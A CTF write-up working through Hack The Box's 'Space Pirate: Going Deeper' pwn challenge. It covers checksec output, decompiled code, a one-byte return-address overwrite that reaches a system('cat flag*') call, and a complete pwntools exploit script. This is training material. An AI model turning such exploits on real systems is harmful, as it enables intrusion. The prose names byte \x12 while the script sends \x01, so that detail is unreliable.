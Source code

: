 ```yaml
---
title: "Binary Exploitation Writeup - Space Pirate: Going Deeper"
published: true
date: 2025-02-06 00:00:00 +/-0000
categories: [general,ctf]
tags: [ctf,htb,binexp,binary exploitation,reverse engineering]     # TAG names should always be lowercase
image:
    path: /assets/images/malware.jpg
---
```


# HTB - Space Pirate: Going Deeper

This was a pretty standard buffer overflow exercise. Rated "Very Easy" by Hack The Box, this `pwn` binary was a pretty cut-and-dry exercise (with the only real points of friction being the unstable connection to the remote instance).

This challenge - like other `pwn` challenges - isn't shipped with its source code, so one of the first tasks we need to go about is understanding it's underlying behavior. Like in other similar problems. Our preliminary checks include a cursory `file` review:

```bash
file ./sp_going_deeper

sp_going_deeper: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e9d96fdc1091d36833c62c12aa64d686730493eb, not stripped
```

As well as running the binary through `checksec`:

```bash
checksec --file=sp_going_deeper
```

|Check|Value|[Implication](https://opensource.com/article/21/6/linux-checksec)|
|---|---|---|
|RELRO|Full RELRO| Relocation Read-Only; ELF's use Global Offset Table (GOT) to resolve functions. Being FULL, the binary is read-only, mitigating relocation attacks.|
|STACK CANARY| No canary found | Canaries are values placed between a buffer and control data on the stack to monitor buffer overflows. Their absence suggests we might be able to perform BOF. |
|NX| NX enabled | The Non-Executable bit is set. This prevents the execution of code injected via BOF. |
|PIE| No PIE | Position-Independent Executable; code placed in memory regardless of its absolute address. Since it's disabled, the base addresses aren't randomized (use `objdump`)|
|RPATH| No RPATH | This is tied to privilege escalation; essentially, we could place a malicious version of the binary in the relative path - this isn't relevant to `pwn`. |
|RUNPATH| RW-RUNPATH | This is tied to privilege escalation; essentially, we could place a malicious version of the binary in the relative path - this isn't relevant to `pwn` |
|Symbols| 77 symbols | At compile time, certain symbols may be retained to help with debugging. This checks out with the "not stripped" response from our `file` command ran above.|
|FORTIFY| No | This refers to "FORTIFY_source"; specifically geared towards preventing basic buffer overflows and format string vulnerabilities. A "No" indicates these may be viable.|
|Fortifiable| 2 | The number of functions within the binary that could benefit from `FORTIFY`. |
|FILE| sp_goin_deeper | The binary in question. |

Opening the binary in `ghidra` to review the decompiled source code shows a limited `main()` function:

```c
undefined8 main(void)

{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```
The `setup()`, `banner()`, and `puts()` calls are all just preliminary fluff, setting up ASCII art, etc. The real meat-and-potatoes of the binary rests in `admin_panel()`:

```c
void admin_panel(long param_1,long param_2,long param_3)

{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

## Buffer Overflow

The vulnerability in this process rests with the `read(0, local_38, 0x39)` call. The value `0x39` is hex for 57, which is more than what `local_38` is allocated (40). This allows for a buffer overflow to take place. However, the overflow is pretty well constrained. Testing it with payloads of "A" and then "B" shows that we only really control the last byte of the `ret` address (in this case from 0x41 "A" to 0x42 "B"):

![alt text](/assets/images/ret-overflow.png)

With this in mind, we're constrained to addresses in the `0x400bXX` space. Fortunately looking over the assembly reveals a great option here:

```
        00400b12 48 8d 3d        LEA        RDI,[s_cat_flag*_004015be]                       = "cat flag*"
                 a5 0a 00 00
        00400b19 e8 e2 fb        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff
```

The first loads the "cat flag" string into RDI (which in 64-bit systems is the placeholder for the first argument for function calls), then the second is a `system()` call to perform that operation. Therefore, we can construct our exploit trivially by having the 57th byte replace with `\x12`, thereby jumping to 0x400b12. Our exploit thus looks like:

```python
#!/usr/bin/env python3
import sys
from pwn import *
context.update(arch='amd64', os='linux')

binstr = "./sp_going_deeper"
address_port_str = "94.237.54.42:35233"
ip, port_str = address_port_str.split(":")
port = int(port_str)

#    break *0x56555d36
if (len(sys.argv)<= 1):
    p = process(binstr)
elif (sys.argv[1] == "dbg"):
    p = gdb.debug([binstr],'''
    unset env LINES
    unset env COLUMNS
    break *0x400aba
    continue
    ''')
elif (sys.argv[1] == "remote"):
    p = remote(ip,port)
else:
    print(f"Invalid argument to e.py: '{sys.argv[1]}'. Did you mean 'dbg'?")
    sys.exit(1)

payload = b''
payload += b'A' * 56
payload += b'\x01'

p.sendlineafter(b'\n>> ', b'1')
p.sendline(payload)

p.interactive()
```

The one bit that was frustrating was that the exploit performed inconsistently. While everything worked locally, I had to perform this exploit *many* times over the remote connection before it worked. Not sure what was happening; some people said the connection was unstable, but I'm not sure.
